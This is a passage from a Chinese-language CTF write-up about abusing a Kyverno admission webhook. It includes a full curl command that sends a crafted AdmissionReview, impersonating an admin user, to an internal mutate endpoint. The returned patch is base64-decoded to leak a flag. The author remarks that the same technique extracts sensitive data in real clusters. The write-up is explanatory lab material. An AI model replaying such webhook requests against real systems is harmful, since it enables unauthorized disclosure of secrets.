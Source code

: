 扔给 GPT 让他结合上面官方给的例子帮忙转下即可（其中有不少字段是可以扔掉的，不过像 requestKind、requestResource等一些字段是不能扔掉的，完整入参见 `k8s.io/api/admission/v1/types.go:AdmissionRequest`）

```bash
curl -k -X POST https://kyverno-svc.kyverno.svc.cluster.local./mutate -H "Content-Type: application/json" --data '{"apiVersion":"admission.k8s.io/v1","kind":"AdmissionReview","request":{"uid":"705ab4f5-6393-11e8-b7cc-42010a800002","kind":{"group":"","version":"v1","kind":"Pod"},"resource":{"group":"","version":"v1","resource":"pods"},"requestKind":{"group":"","version":"v1","kind":"Pod"},"requestResource":{"group":"","version":"v1","resource":"pods"},"name":"example-pod","namespace":"sensitive-ns","operation":"CREATE","userInfo":{"username":"admin","uid":"014fbff9a07c","groups":["system:authenticated"]},"object":{"apiVersion":"v1","kind":"Pod","metadata":{"name":"example-pod","namespace":"sensitive-ns"},"spec":{"containers":[{"name":"example-container","image":"nginx","env":[{"name":"FLAG","value":"{flag}"}]}]}},"oldObject":null,"options":{"apiVersion":"meta.k8s.io/v1","kind":"CreateOptions"},"dryRun":true}}'
```

![Untitled](image/2024-03-22/Untitled%204.png)

把 patch 部分 base64 解码就可以得到 flag 了

> 题目提示1：[https://github.com/anderseknert/kube-review](https://github.com/anderseknert/kube-review) 这个工具可以将创建Pod的yaml文件直接转AdmissionReview请求json参数，就不用GPT了，也不用对着`AdmissionRequest` 入参一个个敲
> 

这种利用手段主要是在实际利用中获取敏感信息，并不是所有开发都会把敏感信息放 secret 里的（亲身体验